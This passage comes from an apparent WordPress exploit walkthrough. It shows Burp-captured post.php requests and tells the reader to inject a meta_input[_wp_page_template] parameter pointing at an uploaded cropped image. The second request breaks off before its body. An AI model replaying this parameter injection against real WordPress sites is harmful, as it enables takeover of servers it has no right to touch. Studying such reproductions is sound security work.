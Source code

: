 #### 10. Create the post carrying the payload by adding a post
* Click `Posts` - `Add New` to create a new post and click `Publish`;
* Check in Burp you will see a POST request `/wp-admin/post.php` similar as below and then send it to Repeater:

```
POST /wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://180.76.234.24/wp-admin/post-new.php?wp-post-new-reload=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 1116
Cookie: wp-saving-post=7-check; wp-saving-post=10-saved; wordpress_21006e0e4224057a8cdfd0bb01a98baa=author%7C1551306468%7CGGxuLa225e31DAfLkssKbzMOiOdk6K4grU75SWKw2tO%7C9f3191099eadc9810a0a7f0ec2a9caa5ceed7f86be6100640b7d444c89f2cc1a; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-2=1551134027; wordpress_logged_in_21006e0e4224057a8cdfd0bb01a98baa=author%7C1551306468%7CGGxuLa225e31DAfLkssKbzMOiOdk6K4grU75SWKw2tO%7C85b467e06eb3b1461380c8672c848b04bf78da7e0c637ba0af40634b437da039
Connection: close
Upgrade-Insecure-Requests: 1

_wpnonce=16f64ed1dd&_wp_http_referer=%2Fwp-admin%2Fpost-new.php&user_ID=2&action=editpost&originalaction=editpost&post_author=2&post_type=post&original_post_status=auto-draft&referredby=http%3A%2F%2F180.76.234.24%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&_wp_original_http_referer=http%3A%2F%2F180.76.234.24%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&auto_draft=&post_ID=7&meta-box-order-nonce=32fc2f4c9b&closedpostboxesnonce=f550a7dc60&post_title=Here+is+the+PoC&samplepermalinknonce=d703c244b8&content=Here+is+the+PoC.&wp-preview=&hidden_post_status=draft&post_status=draft&hidden_post_password=&hidden_post_visibility=public&visibility=public&post_password=&mm=02&jj=25&aa=2019&hh=22&mn=33&ss=47&hidden_mm=02&cur_mm=02&hidden_jj=25&cur_jj=25&hidden_aa=2019&cur_aa=2019&hidden_hh=22&cur_hh=22&hidden_mn=33&cur_mn=33&original_publish=Publish&publish=Publish&post_format=0&post_category%5B%5D=0&tax_input%5Bpost_tag%5D=&newtag%5Bpost_tag%5D=&_thumbnail_id=-1&excerpt=&trackback_url=&metakeyinput=&metavalue=&_ajax_nonce-add-meta=ba64f17c06&advanced_view=1&comment_status=open&ping_status=open&post_name=
```

* Add `&meta_input[_wp_page_template]=<cropped image file name noted in step 9>` in the POST request `/wp-admin/post.php` captured in last step in Burp Repeater similar as below and then click `Go`:

```
POST /wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://180.76.234.24/wp-admin/post-new.php?wp-post-new-reload=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 1116
Cookie: wp-saving-post=7-check; wp-saving-post=10-saved; wordpress_21006e0e4224057a8cdfd0bb01a98baa=author%7C1551306468%7CGGxuLa225e31DAfLkssKbzMOiOdk6K4grU75SWKw2tO%7C9f3191099eadc9810a0a7f0ec2a9caa5ceed7f86be6100640b7d444c89f2cc1a; wordpress_test_cookie=WP+Cookie+check; wp-settings-time-2=1551134027; wordpress_logged_in_21006e0e4224057a8cdfd0bb01a98baa=author%7C1551306468%7CGGxuLa225e31DAfLkssKbzMOiOdk6K4grU75SWKw2tO%7C85b467e06eb3b1461380c8672c848b04bf78da7e0c637ba0af40634b437da039
Connection: close
Upgrade-Insecure-Requests: 1

```